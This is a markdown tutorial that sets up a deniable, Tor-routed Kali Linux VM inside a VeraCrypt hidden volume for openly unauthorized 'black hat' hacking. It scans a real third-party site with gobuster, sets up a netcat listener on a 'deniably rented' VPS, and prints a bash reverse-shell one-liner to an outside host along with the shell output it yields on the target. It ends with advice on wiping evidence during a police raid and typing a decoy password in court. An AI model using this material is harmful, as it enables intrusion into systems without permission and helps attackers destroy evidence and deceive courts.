








# Black Hat Hacking Sensitive VMs Tutorial

```
TLDR: Black Hat Hacking requires setting up a VM whose existance you can deny.
```

In this tutorial we're going to cover how to have a setup that enables the black hat hacking sensitive activity.

First of all, you need to understand that black hat hacking (meaning hacking targets without having been authorized to do it beforehand), **IS A SENSITIVE ACTIVITY! You are actually risking jailtime doing it!** Therefore don't be stupid and pretend like you don't need privacy, anonymity nor deniability when you're doing it, as otherwise you're going to remain a low hanging fruit for law enforcement to easily get and throw in jail. And let's be honest for a minute, most of the hackers out there suck at operational security:


I don't intend to say this lightly, i understand that [hacking is an actual bottomless rabbithole](../../hacking/index.md), and you (dear black hat hacker out there) may not actually have time to learn anything else. I've gone down that rabbithole myself for years and i never saw the end of it. 

However, i hope you realize that you are risking jailtime by doing engaging in that activities. You should properly weigh the pros and cons of that sensitive activity, you have to take into account the worst that could happen to you.


**Before you intend to do some sensitive stunts, fasten your opsec seat belt.**

Don't just gamble with your freedom like it's nothing. You should first make sure that you can safely do that sensitive activity, OPSEC comes first, NOT the hacking.

To actually do some black hat hacking,**YOU NEED PRIVACY, ANONYMITY AND DENIABILITY!** Your threat model must include the worst case scenario, being that **the adversary could bust down your door right now, and force you to type a password.** This is why you need to implement our previous deniability setup as shown below:


## Opsec Requirements:

- Host OS: [Kicksecure](../linux/index.md)
- Host OS packages: [Live Mode + Ram wipe installed](../livemode/index.md)
- Hypervisor : [QEMU/KVM](../hypervisorsetup/index.md)
- Non-System Drive: 2TB HDD encrypted with a 1TB [Veracrypt hidden volume inside](../veracrypt/index.md)
- Virtual Machines: [Sensitive use whonix VMs](../sensitivevm/index.md) inside of the veracrypt hidden volume 

Our targeted setup will build up on those previous tutorials, so make sure that you implement them pre-emptively, before attempting this tutorial:


In this tutorial we're going to reuse our previous sensitive VM setup, adding a Kali linux VM inside the veracrypt hidden volume (**since we want to be able to actually deny that it even exists**), and we're going to make sure that it's networking is forced to go through the whonix gateway VM, to ensure that every connection it does actually goes through Tor, to maintain your anonymity on the IP layer.


Take note that the Kali VM can sit with the other 2 whonix VMs inside the hidden volume, although you need to make sure that the hidden volume is big enough to fit all of them, as the hidden volume needs to be at the very least 250Gb big, i recommend having a 2TB harddrive, containing a 1TB big veracrypt hidden volume to have plenty of diskspace to work with.

## Setting up the Kali linux VM

First, we download the kali linux ISO on the [official website](https://www.kali.org/get-kali/#kali-installer-images):


 Then, as we need to create the VM inside of the veracrypt hidden volume, we reboot into the Host OS live mode to be able to open it:


 Once in live mode on the Host OS, we open the veracrypt hidden volume:


And from there we create the QEMU VM using the Kali linux ISO we just downloaded:





From there we install the kali VM with the defaults settings :


Here it's normal that the vm doesnt find a way to connect to the internet just yet, but that's not a problem since the ISO contains all the tools we need already:





From there wait a bit for the installer to install everything the kali VM will need, as it may take a while.









Now that the VM finished installing we can boot into it:


## Hooking up the Kali VM to script.sh

First, we need to export the kali vm to a xml file:


```sh
[ localhost ] [ /dev/pts/0 ] [~]
→ cd /run/media/private/user/sda

[ localhost ] [ /dev/pts/0 ] [private/user/sda]
→ ls
kali-vm.qcow2
script.sh
script.sh.old2
WHONIX_BINARY_LICENSE_AGREEMENT
WHONIX_DISCLAIMER
Whonix_external_network.xml
Whonix-Gateway.qcow2
Whonix-Gateway.xml
Whonix_internal_network.xml
Whonix-Workstation.qcow2
Whonix-Workstation.xml
Whonix-Xfce-17.3.9.9.Intel_AMD64.qcow2.libvirt.xz

[ localhost ] [ /dev/pts/0 ] [private/user/sda]
→ vim kali-vm.xml            

[ localhost ] [ /dev/pts/0 ] [private/user/sda]
→ cat kali-vm.xml | head -n 10
<domain type="kvm">
  <name>kali-vm</name>
  <uuid>c6b1613c-4e8d-4c08-810e-1b7ffbbffc62</uuid>
  <metadata>
    <libosinfo:libosinfo xmlns:libosinfo="http://libosinfo.org/xmlns/libvirt/domain/1.0">
      <libosinfo:os id="http://debian.org/debian/11"/>
    </libosinfo:libosinfo>
  </metadata>
  <memory unit="KiB">4194304</memory>
  <currentMemory unit="KiB">4194304</currentMemory>

[...]

```

Then we need to edit script.sh to also make sure that it also sets up and removes the kali VM whenever it's being ran:

```sh
[ localhost ] [ /dev/pts/0 ] [private/user/sda]
→ vim script.sh  

[ localhost ] [ /dev/pts/0 ] [private/user/sda]
→ cat script.sh
#!/bin/bash

if [ $(virsh -c qemu:///system list --all | grep Whonix | wc -l) -ne 0 ];
then

    # if the VMs are imported, remove them:

    virsh -c qemu:///system destroy Whonix-Gateway
    virsh -c qemu:///system destroy Whonix-Workstation
    virsh -c qemu:///system destroy kali-vm
    virsh -c qemu:///system undefine Whonix-Gateway
    virsh -c qemu:///system undefine Whonix-Workstation
    virsh -c qemu:///system undefine kali-vm
    virsh -c qemu:///system net-destroy Whonix-External
    virsh -c qemu:///system net-destroy Whonix-Internal
    virsh -c qemu:///system net-undefine Whonix-External
    virsh -c qemu:///system net-undefine Whonix-Internal
else


    # if the VMs are not imported, import them:
    virsh -c qemu:///system define /run/media/private/user/sda/Whonix-Gateway.xml
    virsh -c qemu:///system define /run/media/private/user/sda/Whonix-Workstation.xml
    virsh -c qemu:///system net-define /run/media/private/user/sda/Whonix_external_network.xml
    virsh -c qemu:///system net-define /run/media/private/user/sda/Whonix_internal_network.xml
    virsh -c qemu:///system define /run/media/private/user/sda/kali-vm.xml
    virsh -c qemu:///system net-autostart Whonix-External
    virsh -c qemu:///system net-start Whonix-External
    virsh -c qemu:///system net-autostart Whonix-Internal
    virsh -c qemu:///system net-start Whonix-Internal
    # then exit because we dont want to run the rest of wipe.sh
    exit $? 
fi
```

Now from here, when running Win+S (which is a shortcut to trigger script.sh), you'll not only either setup or remove the whonix VMs, but also the black hat hacking kali VM, as intended.


## Setting up the Kali VM to use the Whonix Gateway 

Once booted into the kali VM, we need to make sure that it's networking interface is using the whonix internal network:


Here we need to setup a static IP in the /etc/network/interfaces config file:


Then make sure that the kali VM uses the whonix gateway as it's main DNS to resolve domains:



and lastly we reload the network by doing the following:



Then we verify that it works through Tor as intended by checking our public ip on the tor project directly:


and as you can see, even though we're trying to do a regular clearnet connection on the kali vm, it automatically got forced through Tor directly.


## Using the Sensitive Black Hat Hacking VM 

First i recommend making sure your tools are properly updated:

```sh
┌──(user㉿kali)-[~]
└─$ sudo -i
[sudo] password for user: 
┌──(root㉿kali)-[~]
└─# apt update -y ; apt dist-upgrade -y ; apt autoremove -y
```

Be warned that it's going to download every package update available through Tor, so be patient as it may take a while! Once it's finished, let's use a few tools that are part of everyday hacking activities:

### Port Scanning through Tor (tricky)

By default it returns all ports as open so idk how to do that yet ? maybe try to socks5 it through 10.152.152.10 if possible ?

### Gobuster website directory crawling

First we need the seclists package to have the directory wordlists to bruteforce websites with:

```sh
┌──(root㉿kali)-[~]
└─# apt update -y ; apt install seclists -y 

┌──(root㉿kali)-[~]
└─# gobuster dir -u https://check.torproject.org -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 2 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://check.torproject.org
[+] Method:                  GET
[+] Threads:                 2
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/favicon.ico          (Status: 200) [Size: 1150]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
Progress: 2361 / 4747 (49.74%)[ERROR] Get "https://check.torproject.org/jpegimage": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
Progress: 2363 / 4747 (49.78%)[ERROR] Get "https://check.torproject.org/jquery": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
Progress: 2366 / 4747 (49.84%)[ERROR] Get "https://check.torproject.org/js": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
Progress: 2369 / 4747 (49.91%)[ERROR] Get "https://check.torproject.org/jscript": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
Progress: 2373 / 4747 (49.99%)[ERROR] Get "https://check.torproject.org/json": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
Progress: 2376 / 4747 (50.05%)[ERROR] Get "https://check.torproject.org/jsp2": dial tcp: lookup check.torproject.org on 10.152.152.10:53: server misbehaving
/lists                (Status: 301) [Size: 314] [--> https://check.torproject.org/lists/]
Progress: 2728 / 4747 (57.47%)[ERROR] Get "https://check.torproject.org/model": EOF
/robots.txt           (Status: 200) [Size: 23]
/server-status        (Status: 403) [Size: 270]
/server-info          (Status: 403) [Size: 270]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

And the result here is that the server may actually see that it has been bruteforced, but they can't tell who brainforced it since it came from a Tor exit node IP.


Keep in mind that it could be possible that the target blocks connections coming from Tor, therefore if that's the case i recommend that you try to go for a (you -> tor -> vpn -> destination) setup:

To do that, simply setup a VPN (like [mullvad VPN](../vpn/index.md)) on the Kali VM itself like it was shown in [this tutorial](../whentorisblocked/index.md), and repeat the gobuster steps above.


Now obviously i'm not going to showcase how to hack that particular target (if you're a competent hacker you should anyway find a way yourself), but i hope you get the idea, if you want to successfully hack a target without their permission and still face no repercussions whatsoever, **you HAVE to do everything through Tor to maintain your anonymity.**

### Catching Reverse shell connections

In case if you manage to find an exploit on the remote target, you may face the need to catch a reverse shell connection to be able to get a working shell on the target itself:

In that case you need [to rent a VPS deniably](../vps-deniability/index.md), and then use it to catch reverse shell connections like so:

```sh
┌──(root㉿kali)-[~]
└─# ssh root@123.123.123.123 

root@VPS:~$ nc -lnvp 9001
```

**DISCLAIMER: Cloud providers can see everything that happens on VPSes, therefore i recommend limiting the sensitive activity on those to the strict minimum!**

And then for example on the remote server if you manage to run the command below,

```sh
bash -i >& /dev/tcp/123.123.123.123/9001 0>&1
```
 
you're going to get an incoming reverse shell connection to your deniably-rented VPS as shown below::


With it you'd have a shell going on the target (being for example, the server of check.torproject.org), ready to run commands as the www-data user:

```sh
root@VPS:~$ nc -lvnp 9001
Connection from check.torproject.org:58526
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell

www-data@target:/var/www/admin$ uname -a
uname -a
Linux target 4.15.0-36-generic #39-Ubuntu SMP Mon Aug 8 16:19:09 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

www-data@target:/var/www/admin$ whoami
whoami
www-data
```

From there in a regular hacking fashion you'd need to do some privilege escalation (using for example linpeas.sh) to find ways to escalate your privileges from the www-data user to get to the root user, **ALL WHILE MAINTAINING YOUR ANONYMITY!**

## What if the adversary were to bust down your door right now ?

You going through Tor to do everything hacking related may protect your anonymity from start to finish, therefore the adversary shouldn't actually bust down your door in the first place, but this setup is there to protect against the worst case scenario aswell, **EVEN IF they were to bust down your door right now, you have a way to protect your operation from being found out, you still have Deniability in regards to you being behind that operation.**


As described previously in the [Sensitive VM setup](../sensitivevm/index.md), all you need is to press **Right ALT** (to focus out of the VM) and **Right CTRL** (to trigger the emergency reboot script) to ensure that all forensic proof regarding the existence of the veracrypt hidden volume is securely erased, making it impossible for the adversary to prove that your sensitive VMs even exist in the first place.

Here's the rundown of how that worst case scenario that could happen, and how you're actually protected against it:

- the adversary busts down your front door right now
- you correctly press **Right Alt** and **Right CTRL** in time to trigger the emergency reboot procedure (the screen immediately turns black, as in the background the vms get shutdown, the veracrypt hidden volume closes, and the Host OS wipes ram before rebooting)
- as you get pinned down by the adversary, **they only see a black screen**, and they can't even attempt to freeze the RAM contents to retrieve them as these are being wiped down as this is happening.
- the Adversary is left empty handed: **they have no way to prove that the veracrypt hidden volume even exists**, meaning that you cannot be forced to type a password to unlock it.

Later in court, even if the judge forces you to type a password, you can safely type the decoy password to unlock the decoy veracrypt volume, which shows non-sensitive files. The end result being: you show that you complied to the court, you look good to the judge, they have nothing else to further incriminate you with, **and by having done all of that you've most likely significantly reduced your potential jailtime.**